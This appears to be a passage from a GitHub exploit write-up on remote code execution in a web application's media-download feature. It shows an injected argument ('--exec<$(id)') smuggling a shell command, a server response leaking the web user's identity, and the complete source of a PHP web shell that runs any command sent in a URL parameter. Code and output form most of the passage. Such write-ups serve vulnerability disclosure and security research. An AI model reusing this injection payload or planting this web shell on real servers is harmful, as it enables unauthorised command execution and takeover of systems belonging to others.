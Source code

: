The response of this request contains the result of `id` command:
```
{
    "status":2,
    "errors":"sh: 1: cannot open uid=33(www-data) gid=33(www-data) groups=33(www-data): No such file\n",
    "url_orginal":"--exec<$(id)",
    "output":"",
    "result_url":"\/tmp\/downloads\/600c850492ef3.mp3"
}
```

### Exploiting RCE

To better interact with this RCE I uploaded the `php_web_shell.php` file.\
It is an PHP WEB Shell based on `https://github.com/andripwn/rce`.\
\
`php_web_shell.php` (the raw file is in this repository)
```
<title>PHP Web Shell</title>
<html>
<body>

    <form id="execute_form" autocomplete="off">
        <b>Command</b><input type="text" name="id" id="id" autofocus="autofocus" style="width: 600px" />
        <input type="submit" value="Execute" />
    </form>

    <!-- PHP code that executes command and outputs cleanly -->
    <?php
        $command = $_GET['id'];
        echo "<b>Executed:</b>  $command";
        echo str_repeat("<br>",2);
        echo "<b>Output:</b>";
        echo str_repeat("<br>",2);
        exec($command . " 2>&1", $output, $return_status);
        if (isset($return_status)):
            if ($return_status !== 0):
                echo "<font color='red'>Error in Code Execution -->  </font>";
                foreach ($output as &$line) {
                    echo "$line <br>";
                };
            elseif ($return_status == 0 && empty($output)):
                echo "<font color='green'>Command ran successfully, but does not have any output.</font>";
            else:
                foreach ($output as &$line) {
                    echo "$line <br>";
                };
            endif;
        endif;
    ?>
</body>
</html>
```
